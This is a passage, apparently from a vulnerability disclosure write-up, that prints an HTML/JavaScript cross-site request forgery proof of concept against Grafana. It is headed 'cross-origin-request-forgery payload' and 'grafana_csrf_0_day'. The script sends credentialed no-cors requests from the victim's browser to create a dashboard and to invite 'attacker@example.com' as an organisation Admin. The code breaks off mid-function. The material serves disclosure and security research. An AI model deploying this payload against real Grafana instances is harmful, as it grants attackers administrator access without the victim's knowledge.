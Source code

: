 {F1588757}

7. Now its time to save our cross-origin-request-forgery payload .

```html
<html>
  <head></head>
  <body>
<h1>cross-origin-request-forgery POC</h1>
<div id=statusdiv></div>
<script>

var victim_instance = "<vic_instance>";

function log_status(msg) {
  //status logger.
  let com = document.getElementById('statusdiv')
  com.innerHTML += "<h2>" + msg + "</h2>"
}

function dashboard_poc() {
	log_status("[*] Creating Dashboard")
	var url = `${victim_instance}/api/dashboards/db`
	fetch(url,
		{
			method:"POST",
			mode:"no-cors",
			credentials:"include",
			headers: {
				"Content-Type": "text/plain; application/json"
			},
			body: JSON.stringify(
				{
					"dashboard": {
						"title": "grafana_csrf_0_day"
					}
				}
				)
		})
}

function invite_poc() {
	log_status("[*] Creating User")
	var url = `${victim_instance}/api/org/invites`
	fetch(url,
		{
			method:"POST",
			mode:"no-cors",
			credentials:"include",
			headers: {
				"Content-Type": "text/plain; application/json"
			},
			body: JSON.stringify(
				{
					"name": "attacker",
					"email": "",
					"role": "Admin",
					"sendEmail": false,
					"loginOrEmail": "attacker@example.com"
				}
				)
		})
}

function finish_up() {
```

[grafana]: https://grafana.com/
[samesite]: https://web.dev/samesite-cookies-explained/